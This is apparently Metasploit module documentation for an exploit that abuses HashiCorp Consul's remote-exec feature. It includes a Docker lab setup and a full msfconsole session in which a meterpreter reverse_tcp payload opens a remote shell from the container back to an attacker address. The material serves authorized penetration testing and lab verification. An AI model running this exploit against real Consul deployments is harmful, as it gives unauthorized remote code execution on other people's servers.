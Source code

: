 ## Vulnerable Application

[HashiCorp Consul](https://www.consul.io/) with `disable_remote_exec` configuration flag set to false (default configuration up to version 0.8, opt-in since version 0.9).

### Description

This module exploits a feature of Hashicorp Consul named rexec.

The exec command provides a mechanism for remote execution. For example, this can be used to run the uptime command across all machines providing the web service.

The exposure of rexec service depends on the `disable_remote_exec` option. This option was set to true starting from Consul 0.8, to make remote exec opt-in instead of opt-out.

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
BOOTSTRAP_ID=`docker run -p8301:8301 -d --name=consul_bootstrap_server consul:latest agent -server -client=0.0.0.0 -bootstrap -data-dir /tmp/consul`
sleep 2
BOOTSTRAP_IP=`docker inspect --format '{{ .NetworkSettings.IPAddress }}' $BOOTSTRAP_ID`
docker run -d --name=consul_client_1 -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true, "disable_remote_exec":false}' consul:latest agent -ui -client=0.0.0.0 -retry-join=$BOOTSTRAP_IP
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="$BOOTSTRAP_IP:8500"
```

You should observe something similar to the excerpt below when running the script:

```
sudo ./launch.sh
[+] Launching consul instances...
d28e7cf476ff2f148cad81a0b1959a7c67591c2e348c6172b6f463af66d1eb9a
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
38a7c1d93e7f  172.17.0.1:8301  alive   server  1.4.0  2         dc1  <all>
d28e7cf476ff  172.17.0.2:8301  alive   client  1.4.0  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your consul containers** (so be careful if you use consul containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps -a | grep consul | cut -d' ' -f1`; do docker stop $h && docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_rexec_exec`
  4. Do: `set RHOST ip_of_consul_container`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_rexec_exec
msf5 exploit(multi/misc/consul_rexec_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_rexec_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_rexec_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_rexec_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating session.
[*] Got rexec session ID b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Setting command for rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Triggering execution on rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Cleaning up rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
